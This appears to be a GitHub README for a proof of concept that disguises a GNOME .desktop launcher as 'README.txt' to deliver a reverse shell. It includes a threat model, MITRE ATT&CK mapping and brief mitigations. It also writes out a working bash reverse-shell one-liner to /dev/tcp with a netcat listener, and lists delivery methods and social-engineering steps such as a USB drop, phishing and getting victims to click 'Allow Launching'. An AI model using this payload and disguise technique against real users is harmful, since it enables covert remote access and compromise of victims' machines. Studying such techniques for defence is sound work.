 # Reverse Shell Delivery via `.desktop` Launcher


## Objective

- Disguise an executable reverse shell as a trusted, text-based document  
- Deliver the payload in a single file, with no external dependencies  
- Trigger a reverse shell back to a Kali Linux listener upon click

---

## Threat Model

### Attacker Goals

- Gain an interactive remote shell on the target system  
- Maintain stealth through social engineering and file disguise  
- Avoid detection by not requiring administrative privileges or file downloads  

### Assumptions

- The victim uses a GNOME-based Linux desktop (e.g., Ubuntu)
- The user is socially engineered into trusting and launching the disguised file  
- The target machine has outbound network access to the attacker's listener  

### Attacker Capabilities

- Ability to craft a malicious `.desktop` launcher with a reverse shell payload  
- Means of delivering the file to the target (e.g., via USB, phishing, shared folder)  
- Control over a listener machine to receive incoming connections (Kali with `nc`)  

### Victim Environment

- User operates under a non-restricted Linux desktop environment  
- No outbound firewall blocking the reverse shell connection  
- Default GNOME behavior is intact (trust prompt on `.desktop` files)

---

## MITRE ATT&CK Techniques

The following table maps the techniques used in this proof-of-concept to the [MITRE ATT&CK Framework](https://attack.mitre.org/):

| Tactic                  | Technique                                 | ID            | Description |
|-------------------------|-------------------------------------------|---------------|-------------|
| **Initial Access**      | User Execution: Malicious File            | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | The `.desktop` file is disguised as a benign `README.txt` to trick the user into executing it. |
| **Execution**           | Command and Scripting Interpreter: Bash   | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Bash is used to execute the reverse shell payload. |
| **Defense Evasion**     | Masquerading                              | [T1036](https://attack.mitre.org/techniques/T1036/) | The launcher file mimics a `.txt` document with a text icon and filename. |
| **Command and Control** | Application Layer Protocol: Custom TCP    | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | The reverse shell uses a raw TCP connection (via Netcat). |

---

### Limitations

- Requires user interaction (file must be trusted and launched)  
- The payload runs with the user’s privileges (not root)  
- Network-dependent: reverse shell fails if outbound traffic is blocked   

### Mitigations

- Disable `.desktop` file execution from user-writable directories  
- Enforce outbound firewall rules or use network segmentation  
- Improve user awareness through training against disguised file traps  

---

## Implementation Details

### File: `README.txt.desktop`

- **Filename shown to user:** `README.txt`  
- **Real extension:** `.desktop` (GNOME launcher)  
- **Icon used:** `text-x-generic` (appears like a text file)  
- **Trust method:** GNOME “Allow Launching” system  

### Payload Logic

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.14/6969 0>&1'
```
---

## Deployment and Execution

### Attacker Setup (Kali Linux)

The attacker prepares a Netcat listener on port `6969` to receive the reverse shell connection:

```bash
nc -lvnp 6969
```
### Victim Interaction

The attacker delivers the `README.txt.desktop` file to the target system. Possible delivery methods include:

- USB drop (removable media left in a shared area)
- File sharing platforms (e.g., shared folders, cloud drives)
- Email attachment (if not filtered)
- Direct messaging (Slack, Discord, etc.)

The user must:

1. Save the file to their Desktop.
2. **Right-click the file and select "Allow Launching"**. This is required to make the launcher executable in GNOME.
3. Double-click the file to run it.
4. Once launched, the payload executes silently and initiates a reverse shell to the attacker.

If the user does not manually allow launching, the file will remain inert and appear as plain text.


---

## Screenshots


- Disguised file on Desktop  
  `![Disguised File](images/disguised-file.png)`

- User manually selects “Allow Launching”  
  `![Allow Launching](images/allow-launching.png)`

- Reverse shell connection received  
  `![Shell Connected](images/shell-connected.png)`


---

## Conclusion

This proof-of-concept demonstrates how `.desktop` launcher files can be leveraged to gain remote shell access through basic user interaction and visual deception. Despite its simplicity, this method is capable of bypassing technical defenses when paired with effective social engineering.
